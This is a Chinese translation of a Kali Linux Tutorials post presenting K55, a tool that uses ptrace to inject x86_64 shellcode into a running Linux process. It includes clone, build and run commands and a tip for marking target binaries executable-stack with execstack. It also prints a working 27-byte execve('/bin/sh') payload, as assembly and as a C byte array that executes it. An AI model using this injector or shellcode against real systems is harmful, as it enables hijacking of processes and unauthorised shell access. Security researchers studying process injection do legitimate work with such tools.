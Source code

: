 # K55 : Linux X86_64 进程注入实用程序

> 原文：<https://kalilinuxtutorials.com/k55/>

[![K55 : Linux X86_64 Process Injection Utility](img/f7e7e9472ea0b04040e317e62475c8aa.png "K55 : Linux X86_64 Process Injection Utility")](https://1.bp.blogspot.com/-48FfEHSgVAU/YACcAvPP8QI/AAAAAAAAIWg/wTHVmuBmlE0eRsVkUobAF3RTVPWfBs0KwCLcBGAsYHQ/s728/K55.png)

**K55** 净荷注入工具用于将 x86_64 外壳代码净荷注入正在运行的进程。该实用程序是使用现代 C++11 技术以及一些传统的 C linux 函数如 **`ptrace()`开发的。**

目标进程中产生的外壳代码有 27 个字节，它在目标的地址空间中执行/bin/sh(产生一个 bash 外壳)。将来，我将允许用户通过命令行参数输入他们自己的外壳代码。

**安装**

【T4`git clone https://github.com/josh0xA/K55.git`
`cd K55`
`chmod +x build-install.sh`
`./build-install.sh`

**用途**

`**Usage: ./K55 <process-name>**`

*   process-name 可以是任何具有`r-xp`或`execstack`权限的 linux 进程。

**测试**

测试 1)在一个终端(K55/目录)，运行:`**./k55_example_process/k55_test_process**`
测试 2)在另一个终端，运行注射器:`**./K55 k55_test_process**`

**在行动中**

*   当 K55 shellcode 注入器运行时(作为根用户)，在 k55_test_process 中会产生一个 shell。

**注入给定流程**

![](img/855a21e8745a20ad7a608561a48b12e1.png)

**目标**中产生的外壳

![](img/9877e0bdc469143293fefcbce549ce96.png)

**限制**

显然，`**ptrace(PTRACE_POKETEXT...)**`通话并不是最伪装的。所以，有些应用会限制 K55 的作用。但是，为了进行安全测试，请确保为您的目标应用程序打开`**execstack**`。例如，如果我在 gdb 上测试，在我注入之前，我会运行下面的:`**sudo execstack -s /usr/bin/gdb**`。从您的发行版软件包管理器安装 execstack。对于 Arch Linux 用户，可以在 AUR 上找到 execstack。

**制作外壳负载**

**注:**以下为演示。有效载荷字符串已经被硬编码到 K55 中。

**有效载荷的组装实现([引自 shell-storm(重定向)](http://shell-storm.org/shellcode/files/shellcode-806.php) )**

```
main:
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    push rsp
    pop rsi
    mov al, 0x3b
    syscall
```

*   **C-有效载荷的实现**

```
#include <stdio.h>
#include <string.h>

// Shellcode breakdown of the assembly code.
char code[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main()
{
    printf("len:%d bytes\n", strlen(code));
    (*(void(*)()) code)();
    return 0;
}

```

[**Download**](https://github.com/josh0xA/K55)